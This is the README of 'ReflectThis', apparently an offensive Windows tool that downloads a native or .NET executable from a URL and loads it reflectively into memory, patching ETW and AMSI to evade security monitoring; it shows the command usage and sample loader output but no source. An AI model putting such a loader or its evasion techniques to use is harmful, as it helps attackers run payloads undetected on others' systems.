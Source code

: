 # ReflectThis
- Supports Native and .NET PE files
- Load Native or .NET PE file hosted on web server
- IAT Hook to common commandline functions to fix arguments
- Set proper permissions on loaded sections
- ETW and AMSI patching
- TLS Callback support

## Usage
```ps
> .\ReflectThis.exe [url] [args...]
[-] Patched EWT in host at 77b713c0
[-] Patched AMSI in host at 65935960
[-] copying PE section NT Header (01268CE8) -> 00400000
[-] copying PE section .text (012690E8) -> 00401000
[-] copying PE section .rdata (0126C2E8) -> 00405000
[-] copying PE section .data (0126DAE8) -> 00407000
[-] copying PE section .msvcjmc↨ (0126DCE8) -> 00408000
[-] copying PE section .rsrc (0126DEE8) -> 00409000
[-] copying PE section .reloc (0126E0E8) -> 0040A000
[-] resolving function GetCommandLineA -> 213f2
[-] resolving function GetModuleHandleA -> 77a31130
[-] resolving function GetProcAddress -> 77a2fb80
[-] resolving function LoadLibraryA -> 77a312a0
[-] resolving function GetCurrentProcess -> 77a33550
[-] resolving function FreeLibrary -> 77a311b0
[-] resolving function VirtualQuery -> 77a2fba0
[-] resolving function GetProcessHeap -> 77a2f9b0
[-] resolving function HeapFree -> 77a2e590
[-] resolving function HeapAlloc -> 77b55e70
[-] resolving function GetLastError -> 77a2e640
...SNIP...
```
